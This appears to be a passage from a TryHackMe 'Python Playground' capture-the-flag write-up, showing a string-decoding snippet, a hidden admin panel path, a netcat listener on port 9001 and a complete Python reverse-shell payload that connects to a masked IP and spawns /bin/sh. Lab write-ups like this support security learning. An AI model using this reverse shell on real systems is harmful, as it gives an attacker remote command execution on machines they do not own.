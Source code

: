 ```bash
def text_to_array(txt):
    tmp = []
    for i in txt:
        tmp.append(ord(i) - 97)
    return(tmp)

print(array_to_string(text_to_array(array_to_string(text_to_array('dxee*************************xefdxdudueqduerdvdtdvdu')))))
```

```bash
:~/PythonPlayground# python3 a.py
*************
```

<br>
<br>
<h2 align="center">/super-secret-admin-testing-panel.html</h2>

<img width="1057" height="816" alt="image" src="https://github.com/user-attachments/assets/9f3825b0-2a81-43c6-831f-3b2531efe1f7" />

<br>
<br>

<img width="1036" height="623" alt="image" src="https://github.com/user-attachments/assets/114a3066-928b-4d27-a5c1-594ab31ea4e8" />

<br>
<br>

```bash
print(Hello TryHackMe)
```

<img width="1037" height="391" alt="image" src="https://github.com/user-attachments/assets/18eaddc6-a519-4e44-a8d5-747fc871e77c" />

<br>
<br>

```bash
:~/PythonPlayground# nc -nlvp 9001
Listening on 0.0.0.0 9001
```

```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xx.xxx.xx.xxx",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

<img width="1037" height="400" alt="image" src="https://github.com/user-attachments/assets/cb851454-6e48-438d-b767-a2f0baf058f8" />

<br>
<br>
